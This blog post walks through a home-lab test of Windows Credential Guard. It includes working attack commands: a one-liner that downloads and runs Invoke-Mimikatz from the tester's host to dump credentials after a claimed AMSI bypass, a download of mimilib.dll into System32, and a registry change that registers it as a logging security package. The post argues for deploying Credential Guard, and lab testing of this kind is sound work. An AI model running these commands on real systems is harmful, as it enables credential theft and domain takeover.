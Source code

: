 ```yaml
---
layout: post
title:  "AMSI Bypass and Testing Credential Guard"
---
```


Credential Guard is an effective way of protecting credentials in an Active Directory domain, of course given that still commonly seen circumstances like obtaining local administrator rights on a machine makes just about anything, including Credential Guard, bypassable. The good thing about Credential Guard is that bypassing it can be a pretty big headache to attackers and give enough time for your SOC to pick up on malicious activity. Depending on other credential-related defense layers you have in your environment, Credential Guard can be one of your domain's strongest defenses.

Without Credential Guard, domain user hashes and passwords are stored in memory which allows local administrators to run tools like Mimikatz and extract said hashes and passwords of other users and potentially even the computer account itself. Even today, with enough lateral movement and password reusage in a domain this is still a surefire way to get Domain Admin and eventually compromise an entire network. 

Credential Guard removes the inherently vulnerable memory-based credential storage and uses Microsoft's **Virtualization Based Security (VBS)** to create a secure **Hyper-V environment** to store your domain credentials, only accessible by trusted processes (known as **Trustlets**) in **VSM (Virtual Secure Mode)**.

## AMSI Bypass

To start off I verify connectivity from my AD lab to my Kali machine by running **tcpdump** and listening for ICMP (Ping):

![ping](/assets/CGTest/ping.png) 

```
sudo tcpdump -i eth0 icmp
```
![tcpdump](/assets/CGTest/tcpdump.png)

Then before running any fancy payloads, test file transfer by starting a python3 webserver on my Kali machine to see if it can be connected to from the AD lab:

```
python3 -m http.server 80
```
![http](/assets/CGTest/http.png) 

![noob](/assets/CGTest/noob.png) 

Now onto the AMSI bypass. Of course Defender won't let me run Mimikatz out of the box so a surprisingly trivial bypass will do the trick. By default Defender will block the bypass PowerShell, but with some obfuscation via string concatenation I'm able to evade Defender detection:

```
IEX (New-Object Net.WebClient).DownloadString("http://192.168.159.128/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
```
![blocked](/assets/CGTest/blocked.png)

![bypass](/assets/CGTest/bypass.png) 

![bypassed](/assets/CGTest/bypassed.png)

## Credential Dumping without Credential Guard

The output below shows what you'd see without Credential Guard. Easily crackable hashes and even plaintext passwords depending on if your domain has other credential-related defenses in place. Computer Accounts can be compromised as well, giving further persistence to an attacker:

![dumpwocg](/assets/CGTest/dumpwocg.png)

![dumpwocg2](/assets/CGTest/dumpwocg2.png)

Enabling Credential Guard is a relatively easy process, granted it isn't quite fully adoptable across the board. It's pretty picky with 3rd parties such as VMware and Nutanix and doesn't work well or at all with nested virtualization, as well as in some cases taking away basic administrative tasks in a virtualized environment. Implementing it for testing in my AD lab was a pain with VMware Workstation but I persisted and got it working for your entertainment.

[Microsoft's documentation is good to follow](https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-manage), plus there are plenty of blogs to walk you through the process or help you troubleshoot errors:

## Credential Dumping with Credential Guard

Once Credential Guard is enabled you can do a few checks to see if it's working properly. "Virtualization-based security" in System Information and checking for Lsalso.exe and "Credential Guard & Key Guard" in Task Manager will do the trick.

```
Get-ComputerInfo -Property DeviceGuard*
```
![enabled1](/assets/CGTest/enabled1.png)

![enabled2](/assets/CGTest/enabled2.png)

![enabled3](/assets/CGTest/enabled3.png)

![enabled4](/assets/CGTest/enabled4.png)

Once these have been verified, and the same steps as before are replicated, the Mimikatz output now shows LSA isolated hashes that I imagine are pretty hard or virtually impossible to crack, depending on the scenario:

![dumpwcg](/assets/CGTest/dumpwcg.png)

![dumpwcg2](/assets/CGTest/dumpwcg2.png)

## Bypassing Credential Guard

With Credential Guard enabled, Mimikatz doesn't have much it can do. As an attacker in this scenario you will need to do some shady and SOC-alertable stuff to get around it, as well as a reboot (it can be done without a reboot, but won't survive a reboot if the user does so at the end of the day), so I hope your persistence is ready for testing. You'll need to use **mimilib.dll** (provided by Mimikatz) to create your own SSP (Security Support Provider) to log credentials in clear text after it's implementation. **Not only this, but you'll need more AV evasion as you'll be writing a file to the disk.**

Also, no one mentions this, but getting mimilib.dll isn't as easy as it sounds. You need to load the Mimikatz Visual Studio Solution file into your Visual Studio (you should have a Windows machine to compile Windows binaries), install dependencies for the project (mine was v141_xp, you can install it via Tools > Get Tools and Features and search for what you need in the "Individual components" tab) and ensure you compile for the correct architecture of your target machine.

Transfer the .dll over like before and place it in C:\Windows\System32:

```
Invoke-WebRequest "http://192.168.159.128/mimilib.dll" -OutFile "C:\Windows\system32\mimilib.dll"
```
![mimilib1](/assets/CGTest/mimilib1.png)

Next add mimilib.dll to the SSP list:

```
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f
```
![mimilib2](/assets/CGTest/mimilib2.png)

And after a reboot, you get this lovely file:

![mimilib3](/assets/CGTest/mimilib3.png)

You can also disable Credential Guard, but this is even messier and requires the end user to actively accept a prompt before OS boot that they want to disable Credential Guard...if that's successful, you deserve the domain my friend.

